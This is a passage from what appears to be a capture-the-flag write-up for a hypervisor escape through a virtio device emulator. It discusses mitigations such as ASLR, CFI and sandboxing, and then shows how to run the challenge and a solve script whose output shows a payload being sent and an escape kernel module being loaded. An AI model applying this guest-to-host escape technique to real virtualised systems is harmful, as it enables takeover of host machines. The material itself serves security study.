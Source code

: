 Even without appropriate bounds-checking, some generic mitigation techniques
might still make exploitation more difficult or even impossible for this kind of vulnerability:
- Randomization like PIE or ASLR might make constructing a job payload pointed at `execve`
harder, and control flow integrity (CFI) checks might recognize that an
indirect job call is malicious.
- Process isolation or sandboxing of hypervisor components that directly interact with the
guest may prevent an exploit from converting control over the isolated device emulator
into root code execution on the host.
- Other design changes that replace or abstract virtqueue communication with better-defined channels
may reduce the attack surface containing these kinds of bugs, but at the cost
of guest-to-host transfer speed.
- Since this kind of vulnerability does not involve an out-of-bounds write,
 protections against memory corruption like stack canaries or W^X do not prevent
 exploitation; the malicious 'job' structure is legitimately copied into host memory
 that the guest must be allowed to influence. 

## Configuration Notes

To launch a local instance of the challenge, use the provided `docker compose`
script:
```bash
$ cd chall/
$ docker compose up
```

Then, in a separate shell launch the `solve.py` script, which should handle all
compilation and transmission:
```bash
$ python3 solve.py
make -C linux-skel/
<cut make output>
make -C payload_module/
<cut make output>
Press Enter to start remote...
[+] Opening connection to localhost on port 1337: Done
Press Enter to transmit payload...
Transmitting 61 commands...
Transmitting payload: 100%|███████████████████████████████████████████████████████████████████████████████████████████████████████| 61/61 [00:02<00:00, 23.51it/s]
Press Enter to insert module...
[*] Switching to interactive mode
 insmod /root/escape_mod.ko
[	5.615264] escape_mod: loading out-of-tree module taints kernel.
[	5.615700] [ESCAPEMOD] Loading module
[	5.617574] [ESCAPEMOD] sent stats buffer
[	5.617695] Virtio PCI Common Config:
[	5.617778]   device_feature_select: 0x00000001
[	5.617892]   device_feature: 0x00000001
[	5.617982]   guest_feature_select: 0x00000001
[	5.618081]   guest_feature: 0x00000001
[	5.618147]   msix_config: 0x0000
[	5.618211]   num_queues: 0x0003
[	5.618276]   device_status: 0x0f
[	5.618355]   config_generation: 0x00
[	5.618414]  
[	5.618414] VQ Specific:
[	5.618489]   queue_select: 0x0002
[	5.618588]   queue_size: 0x0080
[	5.618655]   queue_msix_vector: 0xffff
[	5.618732]   queue_enable: 0x0001
[	5.618816]   queue_notify_off: 0x0002
[	5.618911]   queue_desc: 0x000000000207c000
[	5.619012]   queue_avail: 0x000000000207d000
```